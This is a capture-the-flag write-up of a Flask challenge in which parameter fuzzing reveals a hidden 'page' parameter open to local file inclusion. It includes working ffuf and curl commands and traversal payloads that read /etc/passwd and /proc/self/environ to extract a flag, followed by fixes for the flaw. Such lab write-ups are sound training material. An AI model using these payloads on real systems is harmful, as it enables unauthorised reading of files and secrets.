

# SIDE QUEST, The `page` LFI, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | SIDE QUEST ("fantasy gaming" / "Quiet Grove" web app) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.10.21, HTTP, TCP/8030 (EC2 instance) |
| **IP:Port** | `54.72.82.22:8030` |
| **Flag format** | `safctf{...}` |
| **Author** | lacmyst |
| **Date** | 2026-10-02 |
| **Outcome** | Read the `FLAG` env var through a **Local File Inclusion** (path traversal) in a hidden `?page=` parameter. Spent a while on the image first (it was a decoy), then learned parameter fuzzing to find the real input. |

---

## 1. The Short Version

There were no input fields on the page, so I did what felt natural and **went after the image first**, `traveller.avif`. I'd not dealt with AVIF much, so I read up on it (a modern image-compression format for faster web loading) and figured maybe something was hidden/encrypted alongside it. I ran `binwalk` and all it coughed up was a `Copyright (c) 1998 Hewlett-Packard Company` string, which turned out to be boilerplate from the standard sRGB colour profile, not a clue. So: no hidden data in the image.

Back to the page. I inspected it properly and noticed **`/health` was bolded** in the story text, a deliberate nudge. Hitting it just gave me `OK`. I guessed it might be a **file-path / traversal** thing and went hunting for more paths after `/health` and `/` with `ffuf`... and got nothing back but those two routes, no matter how I scanned.

Stuck, I went digging for other angles and hit on something I genuinely didn't know: **parameter fuzzing** (a.k.a. hunting hidden query parameters, not just paths). The idea is to fuzz *parameter names* from a Burp-derived wordlist with `ffuf`, new to me, and a cool technique to add. That immediately flagged a parameter on `/`: **`page`**. From there I kept digging on `page`, saw it was reading files, and followed it until it leaked the process environment, where the flag was sitting.

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{9fdb535dbf8020d488bf8d6a51287778}` | LFI/path-traversal via `?page=` → read `/proc/self/environ` → `FLAG=...` |

---

## 1.1 Attack Chain (including my detours)



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | `?page=` value is used to read a file with no sanitisation | **Local File Inclusion / Path Traversal** (CWE-22 / CWE-98) | `/` → `page` param | High |
| 2 | Secrets (the flag) stored in the process **environment** | Sensitive Data in Environment (CWE-526) | `/proc/self/environ` |, (amplifier) |

The one real bug is the LFI. Everything else (the image, `/health`) was scenery.

---

## 3. What I Was Given

A target, `54.72.82.22:8030`, serving a small Flask app titled **SIDE QUEST** ("Quiet Grove"). The landing page is mostly story text and one image, **no forms, no visible inputs**. That "nothing to type into" feeling is what sent me looking at the image first.

The one thing I clocked early from the headers: the server is **Werkzeug** (Flask's dev server), so this is a *dynamic Python app*, not static files, meaning the interesting stuff would be in how it handles requests, not in the HTML.

---

## 4. The Image Rabbit Hole (my first instinct)

With no fields to poke, I grabbed the page's image, `traveller.avif`, and leaned on it.

### 4.1 Learning the format
AVIF was new to me. I read up: it's a **modern image format** (built on the AV1 video codec) used to compress images hard for faster web loading. My working theory became "maybe there's data hidden/encrypted *inside* or *appended to* this image", a very CTF thought.

### 4.2 binwalk
```
$ binwalk traveller.avif

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
581           0x245           Copyright string: "Copyright (c) 1998 Hewlett-Packard Company"
```
That was the *only* hit. At first it looked like a lead ("why Hewlett-Packard?"), but it's a red herring: that exact string is the copyright tag inside the **standard sRGB ICC colour profile**, which is embedded in a huge fraction of all images on the web. binwalk did its job, it just found boilerplate colour-profile metadata, not a secret. No archives, no appended files, nothing encrypted. **Image = decoy.** (Lesson filed: a 1998 HP copyright in an image is colour-profile noise, not a clue.)

---

## 5. Back to the Page, the `/health` Nudge

I inspected the page properly this time and noticed the story had **`/health` in bold**:
> *"...not because it had changed, but because they had **/health.**"*

Bolding a URL path in flavour text is an author waving at you. I hit it:
```bash
$ curl -s http://54.72.82.22:8030/health
OK
```
Just `OK`. My next guess was that `/health` was the start of a **file-path / traversal** bug, maybe something lived *after* it (`/health/<something>`), or more routes branched off it. So I fuzzed:
```bash
ffuf -u http://54.72.82.22:8030/FUZZ -w .../raft-small-words.txt -mc all -fc 404
ffuf -u http://54.72.82.22:8030/health/FUZZ -w ... -fc 404
```
Every scan came back with the same two routes: **`/` and `/health`, nothing else.** POST-only hunts and API wordlists, still nothing. I was stuck: the only "input" I had was an endpoint that says `OK` and ignores everything.

---

## 6. The Turning Point, Learning Parameter Fuzzing

Out of ideas on routes, I went looking for a technique I hadn't tried. That's when I came across something I hadn't used before: instead of fuzzing *paths*, fuzz **parameter names**, the hidden `?something=` inputs an endpoint might accept without ever advertising them. The `ffuf` command is straightforward, and the neat part I learned is that the wordlist is a big list of **real-world parameter names derived from Burp Suite**:
```bash
# fuzz GET parameter NAMES on / — baseline page is 8429 bytes, so hide that size
ffuf -u 'http://54.72.82.22:8030/?FUZZ=test' \
  -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  -mc all -fs 8429
```
How it works: it swaps `FUZZ` for each candidate name and sends `?name=test`. If a name does nothing, the page comes back the normal 8429 bytes (filtered out by `-fs 8429`). If a name **changes** the response size, that parameter is *doing something*. One name popped:
```
page
```
That was the whole game changer, the input was never a route, it was a **query parameter the page never mentions.**

---

## 7. Digging Into `page` → LFI

First, see what it does normally:
```bash
$ curl -s 'http://54.72.82.22:8030/?page=test' | tail -1
<h2>Oops! Something went wrong while loading the page.</h2>
```
"loading the page", so `page` names *a file the app tries to load*. That's the textbook setup for **Local File Inclusion**. I tried to climb out of the app directory with `../` (path traversal):
```bash
$ curl -s 'http://54.72.82.22:8030/?page=../../../../etc/passwd' | grep root:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```
**LFI confirmed.** I could read arbitrary files the app's user could read. (A plain `/etc/passwd` without the `../` failed, so the app prefixes a directory, the `../../../../` is what escapes it back to `/`.)

---

## 8. Turning LFI Into the Flag

With file read, the fast wins on Linux are the `/proc/self/*` virtual files, they describe the running process itself:
```bash
$ T=http://54.72.82.22:8030; P="../../../../../../proc/self"

# how was the app launched + where does it live?
$ curl -s "$T/?page=$P/cmdline" | tr '\0' ' '
python app/app.py
#   (and PWD=/app)

# the process environment — secrets often live here
$ curl -s "$T/?page=$P/environ" | tr '\0' '\n' | grep -i flag
FLAG=safctf{9fdb535dbf8020d488bf8d6a51287778}
```
The flag was an **environment variable**, read straight out of `/proc/self/environ`.

> **Flag:** `safctf{9fdb535dbf8020d488bf8d6a51287778}`

---

## 9. A Thing I Considered on the Way, the Browser Console

While stuck, I wondered: *I can run JavaScript in the browser console, can I inject code that way?* Working through it taught me an important distinction I didn't have before:

- The **browser DevTools console runs JS on *my own machine*, in my browser**, it never executes on the server. So "console JS injection" can't give server-side code execution; it only matters for *client-side* bugs (XSS, secrets in page JS).
- The server-side console I was really imagining **does** exist, Flask's **Werkzeug debugger** at `/console`, which runs **Python on the server**, but only when the app is in **debug mode**. This box had debug **off** (`/console` → 404, plain error pages), so that door was shut.

Right idea, wrong side of the wire. Knowing *which machine a console runs on* is the lesson I'm keeping.

---

## 10. The Decoys, Named

- **`traveller.avif`**, a clean image; its only "secret" (the HP/sRGB copyright) is standard colour-profile boilerplate. Pure misdirection for the "no input fields → must be stego" instinct.
- **`/health`**, a real but inert utility route (`OK`). It's a *hint about the app's shape* (a hand-written set of named endpoints → look for hidden inputs), not a bug itself. I over-read it as a path-traversal start.

The real trail was: **ignore the image → realise routes are a dead end → fuzz parameters → `page` → LFI → `/proc/self/environ`.**

---

## 11. Why It Worked & How I'd Fix It

**LFI / path traversal (weakness 1).**
- *Cause:* building a file path out of user input (`"pages/" + page`) with no validation, so `../` escapes the intended directory.
- *Fix:* never pass user input to a file open. Map an **allow-list** of page names to fixed files (`{"about": "about.html"}`); if you must use the name, canonicalise and verify the resolved path stays inside the intended directory (`os.path.realpath` + prefix check), and strip `../`.

**Secrets in environment (weakness 2).**
- *Cause:* the flag/secret lived in an env var, so any file read of `/proc/self/environ` exposes it.
- *Fix:* don't keep high-value secrets in the environment of an internet-facing process; use a secrets manager, and remember an LFI/RCE reads env instantly.

**Defence in depth:** don't run the Werkzeug dev server in production; run as a low-privileged user in a minimal container so file reads hit as little as possible.

---

## 12. Timeline (how it actually went)

- Saw **no input fields** → grabbed the image `traveller.avif` first.
- Read up on AVIF; suspected hidden data → `binwalk` → only a 1998 HP copyright (sRGB ICC boilerplate) → image is a decoy.
- Inspected the page → noticed **`/health` bolded** → `curl` → `OK`.
- Guessed a path-traversal/file bug *after* `/health`; `ffuf` for routes past `/health` and `/` → only those two routes, repeatedly.
- Dug for another angle → learned **parameter fuzzing** (ffuf + Burp parameter-name wordlist) → found the `page` parameter on `/`.
- Probed `page` → "loading the page" error → `?page=../../../../etc/passwd` dumped `/etc/passwd` → **LFI**.
- `?page=.../proc/self/cmdline` → `python app/app.py`; `?page=.../proc/self/environ` → **`FLAG=safctf{...}`**.
- (Side quest within the side quest: worked out that browser-console JS runs client-side only; the server-side Werkzeug `/console` was disabled here.)

---

## 13. References

- Flask / **Werkzeug** dev server, `Werkzeug/3.1.9 Python/3.10.21`
- `ffuf`, path fuzzing **and** parameter-name fuzzing (`/?FUZZ=test`, `-fs` to filter by size)
- SecLists, `burp-parameter-names.txt` (the wordlist that found `page`)
- Linux `/proc/self/{environ,cmdline,cwd}`, reading a process's secrets and layout via LFI
- `binwalk`, carving files; the sRGB ICC "Hewlett-Packard" copyright is standard, not a clue
- CWE-22 (Path Traversal), CWE-98 (PHP/Remote-Local File Inclusion family), CWE-526 (Secrets in Environment)

---

## 14. Appendix, The Clean Path (no detours)

```bash
T=http://54.72.82.22:8030

# 1) routes are a dead end (only / and /health) → fuzz PARAMETER names on /
ffuf -u "$T/?FUZZ=test" -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 8429
#    → page

# 2) page loads a file → path-traversal it (LFI)
curl -s "$T/?page=../../../../etc/passwd" | grep root:        # proof

# 3) LFI → read the process env for secrets
curl -s "$T/?page=../../../../../../proc/self/environ" | tr '\0' '\n' | grep -i flag
#    → FLAG=safctf{9fdb535dbf8020d488bf8d6a51287778}
```
Two lessons I'm keeping: **when routes dry up, fuzz parameter *names*, not just paths**, hidden inputs win; and **a console only gives you code execution on the machine it runs on**, the browser's runs on me, not the server.
